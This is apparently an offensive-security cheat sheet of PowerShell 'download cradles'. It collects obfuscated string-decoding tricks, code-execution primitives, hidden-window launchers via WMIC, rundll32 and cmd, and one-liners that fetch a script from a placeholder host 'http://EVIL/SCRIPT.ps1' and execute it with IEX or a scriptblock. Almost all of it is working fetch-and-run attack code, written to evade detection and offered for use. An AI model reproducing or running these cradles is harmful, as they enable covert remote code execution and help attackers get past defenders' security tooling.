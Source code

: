 ### Download Cradles

#### 0) Extra goodies

- Obfuscated `FromBase64String` with `-bxor` nice for dynamic strings deobfuscation:
```
$t=([type]('{1}{0}'-f'vert','Con'));($t::(($t.GetMethods()|?{$_.Name-clike'F*g'}).Name).Invoke('Yk9CA05CA0hMV0I=')|%{$_-bxor35}|%{[char]$_})-join''
```

- The same as above but for UTF-16 base64 encoded strings:
```
$t=([type]('{1}{0}'-f'vert','Con'));-join[char[]]([uint16[]]$t::(($t.GetMethods()|?{$_.Name-clike'F*g'}).Name).Invoke('MAA7ACAAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUA')-ne0)
```

#### A) Powershell Code Execution primitives

   Phrase `(Function).Invoke()` may be rephrased as: `&(Function)`

   1. _Scriptblock_: 
   ```
   [scriptblock]::Create('Get-Service').Invoke()
   ```
   
   2. PS1.0 Invoke
   ```
   $ExecutionContext.(($ExecutionContext|Get-Member)[6].Name).(($ExecutionContext.(($ExecutionContext|Get-Member)[6].Name).PsObject.Methods|Where{$_.Name-ilike'In*'}).Name).Invoke('Get-Service')
   ```
   
   3. Get-Alias:
   ```
   &(DIR Alias:/I*X)'Get-Service'
   ```
   
   4. Get-Command:
   ```
   &(GCM I*e-E*)
   ```
   
   5. Powershell Runspace
   ```
   [PowerShell]::Create().(([PowerShell]::Create()|Member)[5].Name).Invoke('Get-Service').Invoke()
   ```
   
   6. Concatenated IEX:
   ```
   &(''.SubString.ToString()[67,72,64]-Join'')'Get-Service'
   ```
   
   7. _Invoke-AsWorkflow_ (PS3.0+)
   ```
   Invoke-AsWorkflow -Ex ('Get-Service')
   ```

#### B) Powershell Payload Download primitives

   1. Invoke-RestMethod (PS3.0+)
   ```
   ('http://EVIL/SCRIPT.ps1'|%{(IRM $_)})
   ```
   
   2. Obfuscated `Net.WebClient.DownloadString`:
   ```
   $w=(New-Object Net.WebClient);$w.(((($w).PsObject.Methods)|?{(Item Variable:\_).Value.Name-clike'D*g'}).Name).Invoke('http://EVIL/SCRIPT.ps1')
   ```
   
   3. Net.WebRequest:
   ```
   [IO.StreamReader]::new([Net.WebRequest]::Create('http://EVIL/SCRIPT.ps1').GetResponse().GetResponseStream()).ReadToEnd()
   ```
   
   4. `Msxml2.XMLHTTP` COM object:
   ```
   $c=New-Object -ComObject MsXml2.ServerXmlHttp;$c.Open('GET','http://EVIL/SCRIPT.ps1',0);$c.Send();$c.ResponseText
   ```

#### C) Operating-System Launcher primitives

   1. WMIC:
   ```
   WMIc  "pROCESs"    cALl     crEATE "PoWErSheLL -WInDowstyLE HIdDEn -NonINTErA  Get-Service"
   ```
   
   2. Rundll32 SHELL32.DLL,ShellExec_RunDLL
   ```
   RuNDlL32.exE SHELL32,ShellExec_RunDLL "POWERsHeLL" "-w  1"  " -NonInter  "  "-CO "     "Get-Service"
   ```
   
   3. Cmd + set VAR && Powershell iex VAR
   ```
   cmd  /c"sEt   sqm=Get-Service&&PowErsHeLl  -WinDoWstY hIDDeN -NoniNtERActi  -coMmand   .(   ${E`NV:Com`sp`ec}[4,26,25]-JOIn'')( (  ^&( \"{2}{1}{0}\"-f'm','eT-ITe','G' ) ( \"{1}{0}{2}\" -f'v:S','En','qm')  ).\"vaL`Ue\")"
   ```
   
   4. Cmd + Echo | Powershell - (stdin)
   ```
   CmD.exE /c"  ECho/Get-Service  |  PoWeRsheLL  -nOninT  -WindOw hiDDe  -ComM  (gcI 'vARiaBLE:eX*xT').vAluE.InvoKECOmmanD.InVOkESCript($inPut  )"
   ```
   
   5. Cmd + Echo | Clip && Powershell iex clipboard
   ```
   cmd   /C"  ECHO/Get-Service|cLIP&&  POweRsHElL  -Windo  hIDd  -NONINTe -St -ComMaN     . (  \"{0}{1}{2}\"-f'Ad','d-',(  \"{0}{1}\" -f 'Ty','pe') ) -AN (  \"{0}{2}{4}{1}{3}\"-f'P',(\"{0}{1}\" -f'a','tio'),'res',(  \"{0}{1}\" -f'n','Core'  ),'ent' )   ;    ^&   (  ( [sTriNG]${ve`R`B`oSepRE`F`eRENce}  )[1,3] +  'x'-joiN'' ) (( [WInDoWS.cLipBoARd]::( \"{1}{2}{0}\" -f't','Get','Tex').\"i`N`VoKE\"(  )) )   ; [Windows.Clipboard]::( \"{1}{0}\" -f'ar','Cle').\"I`Nv`OkE\"( )"
   ```
   

#### D) Combined Download Cradles

   1. PowerShell 3.0+
   ```
   IEX (iwr 'http://EVIL/SCRIPT.ps1')
   ```
   
   2. Normal download cradle
   ```
   IEX (New-Object Net.Webclient).downloadstring("http://EVIL/SCRIPT.ps1")
   ```

   3. Download Cradle combining _ScriptBlock_ + `Invoke-RestMethod`
   ```
   [scriptblock]::Create(('http://EVIL/SCRIPT.ps1'|%{(IRM $_)})).Invoke()
   ```
   
   4. `Msxml2.XMLHTTP` COM object with Scriptblock:
   ```
   $c=New-Object -ComObject MsXml2.ServerXmlHttp;$c.Open('GET','http://EVIL/SCRIPT.ps1',0);$c.Send();[scriptblock]::Create($c.ResponseText).Invoke()
   ```
   
   5. Minimized `Net.WebRequest` combined with _ScriptBlock_ execution:
   ``` 
   [scriptblock]::Create([IO.StreamReader]::new([Net.WebRequest]::Create('http://EVIL/SCRIPT.ps1').GetResponse().GetResponseStream()).ReadToEnd()).Invoke()
   ```

   6. A bit obfuscated `Net.WebClient.DownloadString` with Get-Alias IEX variant:
   ```
   $w=(New-Object Net.WebClient);$w.(((($w).PsObject.Methods)|?{(Item Variable:\_).Value.Name-clike'D*g'}).Name).Invoke('http://EVIL/SCRIPT.ps1')|&(DIR Alias:/I*X)
   ```
   
   7. Obfuscated `Net.HttpWebRequest` with _Get-Command IEX`:
   ```
   $h=[tYpE]('{1}{2}{0}'-f('pWebRe'+'quest'),'Ne','t.Htt');$v=((((gET-vAriABLE h).vAlue::Create('http://EVIL/SCRIPT.ps1').PSObject.Methods|?{$_.Name-clike'G*se'}).Invoke()).PSObject.Methods|?{$_.Name-clike'G*eam'}).Invoke();$r='';Try{While($r+=[Char]$v.ReadByte()){}}Catch{};&(GCM *ke-*pr*)$r
   ```

